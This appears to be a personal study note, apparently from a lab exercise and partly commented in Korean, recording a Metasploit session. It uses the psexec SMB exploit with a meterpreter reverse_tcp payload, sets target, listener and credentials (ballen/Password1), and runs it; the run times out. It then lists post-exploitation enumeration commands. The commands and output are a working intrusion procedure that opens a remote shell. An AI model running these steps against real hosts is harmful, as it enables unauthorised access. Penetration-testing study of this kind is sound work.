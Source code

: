 # select exploit

msf > use exploit/windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST
msf exploit(windows/smb/psexec) >

---

# exploit 과 페이로드는 짝처럼 경로 비슷해서 검색하면 됨

# search exploit payload for psexec

msf > search exploit/windows/smb/psexec

# Matching Modules

# Name Disclosure Date Rank Check Description

---

0 exploit/windows/smb/psexec 1999-01-01 manual No Microsoft Windows Authenticated User Code Execution
1 \_ target: Automatic . . . .
2 \_ target: PowerShell . . . .
3 \_ target: Native upload . . . .
4 \_ target: MOF upload . . . .
5 \_ target: Command . . . .

Interact with a module by name or index. For example info 5, use 5 or use exploit/windows/smb/psexec
After interacting with a module you can manually set a TARGET with set TARGET 'Command'

---

# select payload

msf exploit(windows/smb/psexec) > use 0
[*] Using configured payload windows/meterpreter/reverse_tcp
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST

---

# check options

msf exploit(windows/smb/psexec) > show options

Module options (exploit/windows/smb/psexec):

Name Current Setting Required Description

---

SERVICE_DESCRIPTI no Service description to be use
ON d on target for pretty listin
g
SERVICE_DISPLAY_N no The service display name
AME
SERVICE_NAME no The service name
SMBSHARE no The share to connect to, can
be an admin share (ADMIN$,C$,
...) or a normal read/write f
older share

Used when connecting via an existing SESSION:

Name Current Setting Required Description

---

SESSION no The session to run this module on

Used when making a new connection via RHOSTS:

Name Current Setting Required Description

---

RHOSTS no The target host(s), see https://docs.
metasploit.com/docs/using-metasploit/
basics/using-metasploit.html
RPORT 445 no The target port (TCP)
SMBDomain . no The Windows domain to use for authent
ication
SMBPass no The password for the specified userna
me
SMBUser no The username to authenticate as

Payload options (windows/meterpreter/reverse_tcp):

Name Current Setting Required Description

---

EXITFUNC thread yes Exit technique (Accepted: '', seh, thr
ead, process, none)
LHOST 192.168.65.3 yes The listen address (an interface may b
e specified)
LPORT 4444 yes The listen port

Exploit target:

Id Name

---

0 Automatic

View the full module info with the info, or info -d command.

# set env

smsf exploit(windows/smb/psexec) > set RHOSTS 10.201.58.8
RHOSTS => 10.201.58.8
msf exploit(windows/smb/psexec) > set RPORT 445
RPORT => 445
msf exploit(windows/smb/psexec) > set SMBUser ballen
SMBUser => ballen
msf exploit(windows/smb/psexec) > set SMBPass Password1
SMBPass => Password1

# run

msf exploit(windows/smb/psexec) > exploit
[*] Started reverse TCP handler on 192.168.65.3:4444
[*] 10.201.58.8:445 - Connecting to the server...
[-] 10.201.58.8:445 - Exploit failed [unreachable]: Rex::ConnectionTimeout The connection with (10.201.58.8:445) timed out.
[*] Exploit completed, but no session was created.
msf exploit(windows/smb/psexec) > run
[*] Started reverse TCP handler on 192.168.65.3:4444
[*] 10.201.58.8:445 - Connecting to the server...
[-] 10.201.58.8:445 - Exploit failed [unreachable]: Rex::ConnectionTimeout The connection with (10.201.58.8:445) timed out.
[*] Exploit completed, but no session was created.
msf exploit(windows/smb/psexec) >

---

# enum domain name

Use post/windows/gather/enum_domain
show options
session -i

session -i 1
run

# search enum

search enu_share
use 0
show options
sessions -l
set session 2
run
